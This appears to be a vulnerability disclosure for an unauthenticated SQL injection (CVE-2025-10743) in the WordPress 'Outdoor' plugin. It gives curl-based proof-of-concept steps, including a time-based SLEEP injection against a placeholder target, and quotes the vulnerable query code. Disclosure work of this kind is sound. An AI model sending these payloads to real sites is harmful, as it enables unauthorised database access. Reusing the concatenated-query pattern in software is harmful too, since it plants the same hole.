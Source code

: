 # CVE-2025-10743: Unauthenticated SQLi in WordPress 'Outdoor' plugin
The Outdoor WordPress plugin contains an unauthenticated SQL injection vulnerability in the `actions.php` file. The vulnerability occurs in the edit action handler where user-supplied `POST` parameters are directly concatenated into SQL queries without proper sanitization. Specifically, the 'field' and 'value' parameters from `$_POST["field"]` and `$_POST["value"]` are inserted directly into UPDATE queries, allowing attackers to inject arbitrary SQL commands without authentication.

## Proof of Concept
1. Install latest version of WordPress 

2. Install 'Outdoor' plugin v1.3.2 via WordPress plugin browser, or via https://wordpress.org/plugins/outdoor (note, as of October 14, 2025 the plugin was closed by WordPress following the disclosure of this vulnerability) 

3. Populate SQL table (if empty on fresh install)
```
curl -X POST "http://[target-site]/wp-admin/admin.php?page=outdoor" -d "outd_add_media=1"
```

4. Execute Time-based SQL Injection
```
curl -X POST "http://[target-site]/wp-admin/admin.php?page=outdoor" -d "action_row=edit&field=outdoor_status&value=test&id_row=(SELECT SLEEP(5)) OR outdoor_id>=0"
```

## Vulnerable Code: 
```
/wp-content/plugins/outdoor/actions.php
Line 72: $wpdb->query("UPDATE $outd_table_name SET $outd_field = '$outd_value' WHERE outdoor_id = $outd_id");
Line 69: $wpdb->query("UPDATE $outd_table_name SET outdoor_order = outdoor_order + 1 WHERE outdoor_order >= $outd_value");
```
